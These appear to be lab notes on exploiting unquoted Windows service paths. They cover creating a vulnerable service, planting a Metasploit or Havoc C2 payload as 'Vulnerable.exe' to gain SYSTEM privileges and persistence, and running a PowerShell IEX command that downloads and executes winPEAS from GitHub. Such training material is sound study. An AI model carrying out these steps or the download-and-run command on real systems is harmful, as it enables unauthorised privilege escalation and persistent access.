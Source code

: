 # UNQUOTED SERVICE PATH

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc qc VulnService
sc start VulnService
```

When there are spaces in a service path, windows will try to find the service as follows:

It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into

- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments `Service\service.exe`

By placing a malicious service exe in "C:\MyPrograms\" named `vulnerable.exe`, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)



Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

Runas student (unprivileged)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```



Use the Havoc session to upload a havoc.exe renamed to `vulnerable.exe` to the `C:\MyPrograms\Vulnerable Service\` path, and then start the VulnService, using the havoc `shell` command.

upload /opt/havoc/demonsvc.x64.exe c:\MyPrograms\Vulnerable.exe

```powershell
sc.exe start VulnService
```

> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!